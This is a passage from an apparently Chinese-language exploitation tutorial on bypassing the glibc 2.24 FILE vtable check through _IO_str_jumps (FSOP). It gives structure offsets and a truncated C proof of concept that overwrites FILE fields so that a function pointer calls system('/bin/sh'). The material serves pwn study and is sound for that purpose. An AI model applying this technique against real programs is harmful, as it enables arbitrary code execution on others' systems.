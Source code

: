 ```c
if (fp->_IO_buf_base && !(fp->_flags & _IO_USER_BUF)) // 满足安全机制
	(((_IO_strfile *) fp)->_s._free_buffer) (fp->_IO_buf_base); // 执行函数
```

首先第一行，要`fp->_flags & _IO_USER_BUF`不为0才可以。而`_IO_USER_BUF`实际上是一个宏，其定义为`#define _IO_USER_BUF 1`，因此只需要其`fp->_flags`，也就是偏移为0处的值的最低位为0即可。对于`fp->_IO_buf_base`，实际上是接下来要执行的函数的参数，我们要控制其不为0即可。

第二行，执行的函数看起来十分奇怪，其首先使用`(_IO_strfile*)`将`fp`进行变量类型的强制转换，然后再执行转换后的`fp`结构体指针指向的`_s`的`_free_buffer`存放的函数。我们需要控制`_free_buffer`中存放的函数才可以。实际上，我们知道C语言中结构体被解释为什么不重要，它对应的偏移才重要，那么我们在`gdb`中查看到`((_IO_strfile *) fp)->_s._free_buffer`对应`fp`起始处的偏移，然后将其覆盖为`system`即可。如图所示：

若我们将`fp`解释为`(_IO_FILE_plus*)`，那么`fp`为：

![image-20231116100909250](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202311211729060.png)

将其解释为`_IO_strfile *`，那么其会变为：

![image-20231116101103720](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202311211729688.png)

可以看到，实际上内存中的值不会发生变化，只是看如何对其进行解释。那么我们查看`((_IO_strfile *) fp)->_s._free_buffer`的偏移如下：

![image-20231116101344044](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202311211729669.png)

即覆盖对应`fp`偏移为`0xe8`处的函数为`system`，覆盖`fp->_IO_buf_base`处的值为`/bin/sh\x00`的地址即可执行`system('/bin/sh')`。

以C语言手写一个`glibc2.24`下的`vtable check`绕过如下：

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void winner(char* code){
    // system("echo win");
    printf("you got it!\n");
    printf("The code is :%s.\n", code);
    system(code);
}

// vtable的检查方式是在调用vtable函数时，检查vtable是否在 __stop___libc_IO_vtables和__start___libc_IO_vtables之间。
// 而这两个变量之间并不是只有_IO_file_jumps，还有其他很多vtable，例如_IO_str_jumps，以及_IO_wstr_jumps
// 因此我们可以劫持vtable为_IO_str_jumps，然后再覆盖掉_IO_str_jumps里面的函数来完成FSOP
int main(){
    // 我们通过打开一个文件的方式，来得到一个_IO_FILE_plus指针fp
    FILE* fp = fopen("./flag", "r");

    // 要满足安全机制
    *(size_t*)((char*)fp + 0x20) = 1;
    *(size_t*)((char*)fp + 0x28) = 2;

    // 偏移0x38的地方即_IO_buf_base，是函数调用的参数
    // 假如是正常退出，栈都清空了，就会导致winner没有参数，别的方法可以
    char code[] = "/bin/sh\x00";
    *(size_t*)((char*)fp + 0x38) = (size_t)&code;

    // flag的最低为要为0
    *(char*)(fp) = (char)0;

    // 最终调用函数为fp->_s._free_buffer，偏移为0xe8
    *(size_t*)((char*)fp + 0xe8) = (size_t)winner;

    // vtable我们设置为_IO_str_jumps - 8,由此一来要调用的vtable[3]就成为了_IO_str_finish而不是_IO_OVERFLOW
    // _IO_str_jumps的值比_IO_file_jumps的值要大0xc0
    size_t _IO_str_jumps_ = (size_t)(*(size_t*)((char*)fp + 0xd8)) + 0xc0;

    // 设置为_IO_str_jumps - 8
```